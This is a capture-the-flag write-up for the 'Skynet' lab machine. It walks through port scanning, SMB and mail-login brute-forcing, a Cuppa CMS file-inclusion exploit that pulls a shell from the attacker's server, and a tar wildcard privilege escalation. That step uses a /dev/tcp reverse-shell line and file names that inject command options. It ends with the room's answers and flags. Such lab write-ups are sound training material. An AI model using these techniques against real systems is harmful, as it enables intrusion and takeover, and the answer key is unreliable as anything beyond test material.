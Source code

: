 # Skynet

### Deploy and compromise the vulnerable machine!
Initial scan: 

      nmap 10.10.210.244 -n -Pn -p- --min-rate=1000 
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 13:58 CEST
      Nmap scan report for 10.10.210.244
      Host is up (0.046s latency).
      Not shown: 65529 closed tcp ports (conn-refused)
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      110/tcp open  pop3
      139/tcp open  netbios-ssn
      143/tcp open  imap
      445/tcp open  microsoft-ds
      
      Nmap done: 1 IP address (1 host up) scanned in 66.63 seconds

Let's now run a more targeted scan: 

    nmap 10.10.210.244 -p22,80,110,139,143,445 -sV -sC -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 14:28 CEST
    Nmap scan report for 10.10.210.244
    Host is up (0.047s latency).
    
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Skynet
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: UIDL SASL CAPA AUTH-RESP-CODE PIPELINING RESP-CODES TOP
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: more listed OK have LITERAL+ ENABLE LOGINDISABLEDA0001 IDLE SASL-IR Pre-login capabilities IMAP4rev1 LOGIN-REFERRALS ID post-login
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2024-09-22T07:29:18-05:00
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2024-09-22T12:29:18
    |_  start_date: N/A
    |_clock-skew: mean: 1h40m02s, deviation: 2h53m12s, median: 2s
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.42 seconds


The web page shows a form to be compiled, but it doesn't seem to do anything really <br />
![image](https://github.com/user-attachments/assets/59d941f8-a546-4dfb-b28a-2cb96b503cf1)<br />
A directory enumeration reveals some interesting directories: <br />
![image](https://github.com/user-attachments/assets/3fdd81c1-533f-428c-a568-b4a0ba575516)<br />
But for each of them we get a 403 Forbidden, except the last one, squirrelmail, lol. <br />
![image](https://github.com/user-attachments/assets/2c648ddb-3d5b-4444-a632-79cd2cdba4bd)<br />
This version is vulnerable to RCE by an authenticated attacker ([source](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html)): <br />
![image](https://github.com/user-attachments/assets/140dbc53-b486-4fee-ba8c-a38ffe37e645)<br />
I think the next step is to find a way to authenticate, we need to find some credentials. Let's try enumerating SMB shares. I used `enum4linux` for this task, and found something interesting: <br />
![image](https://github.com/user-attachments/assets/c067f4c0-3a22-4ef9-94f3-e3202e2221af)<br />
The target system has two local users: nobody and milesdyson. The output also shows the enumerated shares: <br />
![image](https://github.com/user-attachments/assets/9b3b21ed-a5b7-46b9-9360-64f85dfa4dc6)<br />
Let's try to access the anonymous share anonymously: `smbclient //10.10.190.140/anonymous -U anonymous -p 445`. I found an interesting file: <br />
![image](https://github.com/user-attachments/assets/962ab4d0-2a3c-4509-88e8-64764f95380b)<br />
Also if we access the logs folder, we are provided with 3 txt files: <br />
![image](https://github.com/user-attachments/assets/9e0de88a-536d-490d-91b4-7515b9b1357b)<br />
`log2.txt` and `log3.txt` are empty, but `log1.txt` contains a wordlista. At this point I think it's clear what we have to do: let's try to access Miles share using the given wordlist. I'll use hydra: `hydra -l milesdyson -P log1.txt smb://10.10.190.140 ` <br />
![image](https://github.com/user-attachments/assets/b6845aa7-7196-40ca-9ed3-025b9d50d922)<br />
Nope, this is not the right path. Next thing I wanna try is to bruteforce the squirrel mail login form using "milesdyson" as username, and the given wordlist as passwords. So first of all intercept the request using burpsuite, and set the password field as the target for intruder: <br />
![image](https://github.com/user-attachments/assets/3de3023a-f9e9-40a0-a5d2-ea27ed442b3e)<br />
Now go on "Payloads" and load our given wordlist as payload: <br />
![image](https://github.com/user-attachments/assets/c4fb84d3-25c9-45f8-9a3a-02d928954e82)<br />
Now start the attack. The very first thing I notiece is that the payload `cyborg007haloterminator` has different response parameters with respect to other payloads: <br />
![image](https://github.com/user-attachments/assets/62b45807-3564-4391-b06b-c8c15f8c147d)<br />
so I try to log in as `milesdyson:cyborg007haloterminator`, and it worked! <br />
![image](https://github.com/user-attachments/assets/dd896870-0b25-45bb-b8b9-04a8b9443494)<br />
There it is, in the first email there's the new SMB password for Miles: <br />
![image](https://github.com/user-attachments/assets/cd1e6d37-4126-46a6-8fd6-83471c3c20eb)<br />
Let's log in: `smbclient //10.10.190.140/milesdyson -U milesdyson -p 445`. There's a bunch of scientific pdf files, Miles must be some sort of AI teacher or something. After navigating a bit inside the share, i found a file named "important.txt" inside a directory called "notes": <br />
![image](https://github.com/user-attachments/assets/0e80c450-98f8-4f50-8f58-58d6ec257aa8)<br />
Let's download it and see what's in it. <br />
![image](https://github.com/user-attachments/assets/0ca23a05-0ed0-4624-b8ea-d255e58b69dc)<br />
Damn, Miles really cares about his wife. Anyway, let's access `http://target_IP/45kra24zxs28v3yd`: <br />
![image](https://github.com/user-attachments/assets/7e7a4d45-f47c-446f-aa17-f660336d81ee)<br />
Oh yes he is infact an AI specialist. The page itself seems empty, the source code doesn't contain any comments. Let's try some directory enumeration with `obuster dir -u http://10.10.190.140/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`. Yup, there's something there <br />
![image](https://github.com/user-attachments/assets/8cf719c1-1d90-4971-a17e-7f9ed064ede8)<br />
At this point I was stuck for a while, I didn't find anything, default credentials, sql Injection, etc. After a while I discovered that this version is vulnerable to File inclusion, even anauthenticated, [here](https://www.exploit-db.com/exploits/25971). <br />
![image](https://github.com/user-attachments/assets/52294868-bdee-44a7-86b2-ba222c2ea82d)<br />
So for example if we try to access `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, it actually works and shows us the /etc/passwd file. <br />
![image](https://github.com/user-attachments/assets/3dd36bb6-f73b-45fa-8feb-e089289ce502)<br />
Let's try downloading the configuration file: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php`. We get the following base64 encoded string in return. Decode it: 

      <?php 
      	class Configuration{
      		public $host = "localhost";
      		public $db = "cuppa";
      		public $user = "root";
      		public $password = "password123";
      		public $table_prefix = "cu_";
      		public $administrator_template = "default";
      		public $list_limit = 25;
      		public $token = "OBqIPqlFWf3X";
      		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
      		public $upload_default_path = "media/uploadsFiles";
      		public $maximum_file_size = "5242880";
      		public $secure_login = 0;
      		public $secure_login_value = "";
      		public $secure_login_redirect = "";
      	} 
And we got another set of credentials. These might be usefull later. Now let's try to include a malicious file from our own machine, let's call it shell.php (the code is provided in the file "shell.php" of this folder). Open a netcat listener `nc -lnvp 4444`, set up a web server with `python3 -m http.server 8000`, and upload it to the target machine with the following URL: `http://10.10.190.140/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.85.53:8000/shell.php`. There we go: <br />
![image](https://github.com/user-attachments/assets/f97120a9-1b82-4629-a34e-9a4818959216)<br />
![image](https://github.com/user-attachments/assets/a363b8d5-dd59-46cc-9082-160316c68c6b)<br />
And we have our user flag (the answers are all at the end of the writeup). Now let's stabilize the shell: 

            python3 -c 'import pty;pty.spawn("/bin/bash")'
            CTRL + Z
            stty raw -echo; fg
            export TERM=xterm
After some enumeration(I used linpeas), I found an interesting cron job: <br />
![image](https://github.com/user-attachments/assets/7eda4bd9-006b-45c3-8502-599cbae34fee)<br />
It runs every minute and it is owned by root. We also have read access to that file: <br />
![image](https://github.com/user-attachments/assets/acc04231-636e-448c-ab41-108fa5abd949)<br />
The command `tar cf /home/milesdyson/backups/backup.tgz *` will run a backup of all the files in the current directory. Since we are www-data, we have access to that directory. We can exploit this by using tar wildcards; move to `/var/www/html` and run the following commands: 

      echo "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" > shell.sh
      touch -- '--checkpoint=1'
      touch -- '--checkpoint-action=exec=bash shell.sh'
A "checkpoint" is essentially a tar option that tells tar to stop and do something. In particular we are telling tar to execute the reverse shell script. So open a netcat listener `nc -lnvp 4445` and wait a minute: <br />
![image](https://github.com/user-attachments/assets/cb10878b-3537-45c6-8a9c-dbb805c23b2d)<br />
We are root :)

                                                            
- What is Miles password for his emails? `cyborg007haloterminator`
- What is the hidden directory? `/45kra24zxs28v3yd`
- What is the vulnerability called when you can include a remote file for malicious purposes? `remote file inclusion `
- What is the user flag? `7ce5c2109a40f958099283600a9ae807`
- What is the root flag? `3f0372db24753accc7179a282cd6a949`
